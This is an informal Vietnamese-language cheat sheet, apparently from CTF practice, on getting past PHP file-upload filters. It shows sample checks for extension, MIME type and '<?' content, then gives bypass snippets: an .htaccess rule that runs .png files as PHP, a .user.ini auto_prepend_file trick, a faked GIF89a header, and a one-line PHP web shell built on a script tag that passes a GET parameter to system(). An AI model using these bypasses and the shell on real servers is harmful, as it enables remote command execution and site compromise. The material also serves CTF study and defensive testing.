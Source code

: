 # File Upload Cheet 
Lụm nhặt, đút kết, xin xỏ từ mọi nguồn. Có thấy sai thì thôi không cần góp ý ::icons:


## How it work?
Theo kinh nghiệm chơi CTF nửa năm nay thì đa phần ở dạng cơ bản server sẽ check: 
- Extension: chỉ cho phép upload các file có đuôi trong white list
```php
if($imageFileType != "jpg" && $imageFileType != "png" 
&& $imageFileType != "jpeg" && $imageFileType != "gif" ) {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
    $uploadOk = 0;
}
```
- Check mine:
```php
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
# getimagesize() đọc header của file trả về: Array[weight, h, mine]
if($check !== false) {
    echo "File is an image - " . $check["mime"] . ".";
    $uploadOk = 1;
} else {
    echo "File is not an image.";
    $uploadOk = 0;
}
```
- Check nội dung file: 
```php
$content = file_get_contents($uploaded_tmp);
if(preg_match("/\<\?/i", $content)){
    die("诶，别蒙我啊，这标志明显还是php啊");
}
```

## Bypass
Với từng trường hợp thì sẽ có những cách vượt rào riêng ~~hoặc không~~
- Extension
    - Không có cách cụ thể để bypass, theo kinh nghiệm cá nhân thì khi biết có fillter này ta nên ~~bỏ cuộc~~ fuzzing... hên thì được vài cái như `(phtml, php36,...)`
    - Nếu cho phép up `.htaccess` thì quá ngon. Note: `không check mine thì xài được`

### .htaccess
Đa phần các challenge chạy Apache nên dùng ngon, bị cái nếu thêm header để bypass mine thì file này tạch. ~~có cái hay hơn~~
```php
AddHandler application/x-httpd-php .png
```
### .usr.ini (phpruntime)
Cái này ngon nếu server cho phép `auto_prepend_file`
```php
; Kich hoat PHP tu dong them file vao truoc khi chay script khac
auto_prepend_file = shell.png

```
- Mine: Với getimagesize() thì fake cái header "GIF89a" 
- Content: Làm cách nào để viết mã php mà không cần dấu ? ~~<script>~~

### Script
Script chỉ là một cách để viết, còn nhiều mà làm biếng quá
```html
<script language='php'> 
	system($_GET['cmd']); 
</script>
```
~~khi nào siêng sẽ làm thêm về bypass khi up được shell (fillter system,ls,space,cat,...)~~
``còn thiếu waf mà làm biếng quá ``




